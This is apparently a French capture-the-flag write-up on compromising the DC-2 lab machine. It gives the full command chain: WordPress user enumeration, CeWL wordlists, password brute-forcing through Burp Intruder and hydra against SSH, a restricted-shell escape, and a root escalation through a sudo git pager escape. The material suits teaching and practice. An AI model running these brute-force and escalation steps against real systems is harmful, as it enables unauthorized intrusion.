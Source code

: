 # DC-2

    echo "192.168.249.194 dc-2" >> /etc/hosts

    sudo nmap -A -p1-10000 192.168.249.194
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.249.194 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.249.194
    wpscan --url http://dc-2 --enumerate

Scans classiques. Bien penser à l'option "--enumerate" pour le scan WordPress sous peine de louper pas mal d'éléments importants, comme par exemple des noms d'utilisateurs. Dans notre cas on trouve justement trois utilisateurs : "tom", "jerry" et "admin". 

J'ai fouillé un peu toutes les vulnérabilités qui correspondaient à la version 4.7.10 et qui ne nécessitaient pas d'authentification grâce au site https://wpscan.com/wordpresses mais il n'y avait rien d'exceptionnel. Les deux vulnérabilités qui m'ont tout de suite sauté aux yeux étaient les suivantes : 
- https://wpscan.com/vulnerability/2999613a-b8c8-4ec0-9164-5dfe63adf6e6
- https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2

Seule la seconde fonctionnait mais elle m'a simplement donné le post par défaut de WordPress et l'indice suivant :

> If you can’t exploit WordPress and take a shortcut, there is another way.

En revanche en allant sur l'onglet "Flag" depuis le menu j'ai trouvé un indice bien plus pertinent : 

> Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl. 
> More passwords is always better, but sometimes you just can’t win them all. 
> Log in as one to see the next flag. 
> If you can’t find it, log in as another.

C'est évidemment une référence à l'outil CeWL qui sert à générer des wordlists, je l'ai donc utilisé sur tout le site pour tenter un bruteforcing avec les trois utilisateurs récupérés plus hauts. Je suis d'abord passé par WordPress mais on aurait directement pu sauter à la phase SSH, en tout cas au moins pour Tom.

    cewl http://dc-2/ -w  liste_DC-2.txt

Pour attaquer le formulaire WordPress, je suis passé par Burp. Il suffit d'intercepter une requête à destination de http://dc-2/wp-login.php et de la transmettre à l'Intruder. Il faut ensuite isoler le paramètre à bruteforcer, ici "pwd", et charger la liste obtenue plus haut avec CeWL. Voici ci-dessous les URL utilisées pour l'attaque : 

> log=tom&pwd=§bbb§&wp-submit=Log+In&redirect_to=http%3A%2F%2Fdc-2%2Fwp-admin%2F&testcookie=1
> log=jerry&pwd=§bbb§&wp-submit=Log+In&redirect_to=http%3A%2F%2Fdc-2%2Fwp-admin%2F&testcookie=1
> log=admin&pwd=§bbb§&wp-submit=Log+In&redirect_to=http%3A%2F%2Fdc-2%2Fwp-admin%2F&testcookie=1

Pour Tom et Jerry on voit un résultat dont la page web a une taille différente de toutes les autres, j'ai testé les mots de passe sur le formulaire de login et ils fonctionnent. Pas de résultats pour Admin en revanche.

Une fois entré sur le dashboard, j'ai tout de suite remarqué le formulaire d'upload mais je n'ai pas réussi à l'exploiter. J'ai ouvert un deuxième onglet en navigation privée pour pouvoir tester avec les deux utilisateurs en même temps mais je n'ai rien obtenu de cette partie WordPress. En revanche, en fouillant les pages, je suis retombé sur le deuxième indice mentionnant un autre point d'entrée. J'ai tout de suite pensé au SSH, qui était ouvert sur le port 7744 d'après les scans initiaux. J'ai lancé trois autres tentatives de bruteforcing, mais cette fois-ci sur le port 7744 : 

    hydra -vV -l tom -P ~/liste_DC-2.txt 192.168.249.194 -s 7744 ssh
    hydra -vV -l jerry -P ~/liste_DC-2.txt 192.168.249.194 -s 7744 ssh
    hydra -vV -l admin -P ~/liste_DC-2.txt 192.168.249.194 -s 7744 ssh

Cela fonctionne pour Tom mais pas pour les deux autres.

    ssh 192.168.249.194 -l tom -p 7744

On arrive sur un shell restreint et avec un $PATH spécial mais ces deux points ne sont pas durs à contourner :

    PATH=$PATH:/bin:/usr/bin
    BASH_CMDS[a]=/bin/sh ; a
    cat local.txt
    cat flag3.txt
    
Le fichier "flag3.txt" était le troisième indice et il contenait un jeu de mots qui m'a tout de suite fait comprendre qu'il fallait changer d'utilisateur. Attention à cet angle mort, ce n'est pas parce que Jerry n'a pas le droit au SSH que l'on ne doit pas prendre son compte et vérifier si il n'y a pas un vecteur d'élévation de privilèges dessus.
Et Jerry était bien la clé pour cette dernière étape, une fois arrivé sur le compte de Jerry on voit qu'il a le droit de lancer la commande "git" en tant que root.

Voir : https://gtfobins.github.io/gtfobins/git/#sudo

    su jerry - 
    sudo git -p help config
    !/bin/sh
    ls /root
    cat /root/proof.txt






